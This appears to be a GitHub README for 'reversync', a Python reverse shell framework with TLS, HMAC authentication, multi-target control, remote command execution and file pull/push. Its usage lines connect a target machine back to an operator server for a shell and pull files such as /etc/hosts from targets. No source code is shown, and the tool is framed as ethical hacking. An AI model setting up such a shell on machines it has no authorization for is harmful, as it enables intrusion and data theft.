 # reversync: ⚡ Asynchronous Python Reverse Shell

[![Python](https://img.shields.io/badge/Python-3.7%2B-blue.svg)](https://www.python.org/)
[![Rich Output](https://img.shields.io/badge/Output-Rich-6e4aff)](https://github.com/Textualize/rich)

**reversync** is a modern, asynchronous Python reverse shell framework for secure, authenticated, and encrypted remote command execution and system info retrieval. It features a styled interactive server console via `rich` and supports multi-client management, file transfer, and robust authentication.

---

## 🎬 Example Usage

![Demo](assets/demo.gif)

---

## 🚀 Features

- **Async Reverse Shell:** High-performance non-blocking I/O via Python `asyncio`.
- **SSL Encryption:** All traffic protected with SSL/TLS.
- **HMAC Authentication:** Challenge-response validation for targets using a password file.
- **Rich Server Console:** Terminal UI using `rich` and `blessed`, with command history and multi-target support.
- **Multi-client Management:** Connect, select, and control several targets at once.
- **Remote Command Execution:** Run commands on any client, view real-time output and errors.
- **File Pull & Push:** Securely fetch files from targets or upload files to targets (base64-encoded transfer).
- **System Info:** Query and display detailed remote system data.
- **Session Management:** Switch, view, disconnect, or stop client sessions.
- **Extensible:** Easy to add commands and extend functionality.
- **Graceful Shutdown & Error Handling:** Cleanly disconnect targets and shut down the server with clear error messages.

---

## 📦 Requirements

- **Python 3.7+**
- **Server dependencies:**
  - [`rich`](https://pypi.org/project/rich/)
  - [`blessed`](https://pypi.org/project/blessed/)
  - [`pyfiglet`](https://pypi.org/project/pyfiglet/)
- **Client:** Only the Python standard library.

**Note:**  
You must generate `cert.pem`, `key.pem` (SSL certificate/key) and create a single-line password file named `pswd` before starting the server.

---

## 🛠️ Setup

1. **Clone the repo:**
    ```bash
    git clone https://github.com/outisdz/reversync.git
    cd reversync
    ```
2. **Install dependencies:**
    ```bash
    pip install -r requirements.txt
    ```
3. **Generate SSL certificates:**
    ```bash
    openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes
    ```
4. **Create a password file:**  
   Add your shared secret (single line, no spaces) to a file named `pswd` in the root directory.

---

## 🚦 Starting

**Start the Server:**  
You can now specify certificate, key, password, IP address, and port via command-line arguments:

```bash
python server.py --cert cert.pem --key key.pem --pswd pswd --listen 0.0.0.0 --port 1234
```
- All arguments are optional; defaults are:
    - `--cert cert.pem`
    - `--key key.pem`
    - `--pswd pswd`
    - `--listen 127.0.0.1`
    - `--port 1234`
- The server verifies all files exist before starting.

**Start the Client(s):**  
On the target machine (or another terminal):
```bash
python client.py
```
- By default, connects to `127.0.0.1:1234`.  
- **To connect to a different server or port, use command-line arguments:**
    ```bash
    python client.py --host <server_ip> --port <server_port>
    ```
    For example:
    ```bash
    python client.py --host 192.168.1.10 --port 443
    ```
- At startup, you'll be prompted for the shared secret (password) used for authentication.
- All client dependencies are from the Python standard library; no extra packages are required.

---

## 🖥️ Server Console Commands

| Command                                      | Description                                               |
|-----------------------------------------------|-----------------------------------------------------------|
| `help`                                       | Show help menu                                            |
| `targets`                                    | List all connected targets                                |
| `select <int>`                               | Select a client by index                                  |
| `stop <int>`                                 | Disconnect a client by index                              |
| `sysinfo`                                    | Get system info from target                               |
| `exit`                                       | Exit from current target session                          |
| `clear`                                      | Clear the console output                                  |
| `shutdown`                                   | Disconnect all targets and shut down server               |
| `pull -s <target file> -d <destination>`      | Download file from client                                 |
| `push -s <local file> -d <remote destination>`| Upload file to client                                     |
| _(any other command)_                        | Executes remotely on the client's shell                   |

**File Pull Example:**  
```bash
pull -s /etc/hosts -d ./downloads
```
Saves the file from client to the specified local directory (`downloads`).

**File Push Example:**  
```bash
push -s ./localfile.txt -d /tmp/
```
Uploads a local file to the specified directory on the client.

---

## ⚙️ Command-Line Options

You can now use the following command-line arguments for `server.py`:
- `--cert`: Path to TLS certificate file (default: `cert.pem`)
- `--key`: Path to TLS private key file (default: `key.pem`)
- `--pswd`: Path to password file used for authentication (default: `pswd`)
- `--listen`: IP address to bind and listen on (default: `127.0.0.1`)
- `--port`: Port number to listen on (default: `1234`)

**For `client.py`:**
- `--host`, `-H`: Server IP address to connect to (default: `127.0.0.1`)
- `--port`, `-p`: Server port to connect to (default: `1234`)

Example:
```bash
python client.py --host 10.10.10.20 --port 5555
```

---

## 📁 File Structure

- `server.py`: Main server logic, authentication, interactive command loop.
- `client.py`: Minimal client logic, shell command execution, argument parsing, HMAC authentication.
- `interactiveconsole.py`: Terminal UI and input/output for server.
- `targetsInfo.py`: Target management and session data.
- `sysInfo.py`: System info gathering on client.

---

## ⚠️ Security Warning

> **Never expose this server to the public internet unless you understand the risks.**
>
> - All communication is SSL/TLS encrypted, but authentication is via a shared secret.
> - Anyone with your certificate and password can run commands on your targets.
> - Use strong, unique secrets and protect your key/password files.

---

## 🛠️ Customization

- Change server or client IP/port with command-line arguments.
- Add or modify commands in `server.py` and `client.py`.
- Customize logo/UI in `interactiveconsole.py`.

---

## 📄 License

MIT License. See `LICENSE` for details.

---

**Enjoy hacking (ethically)!** 🚀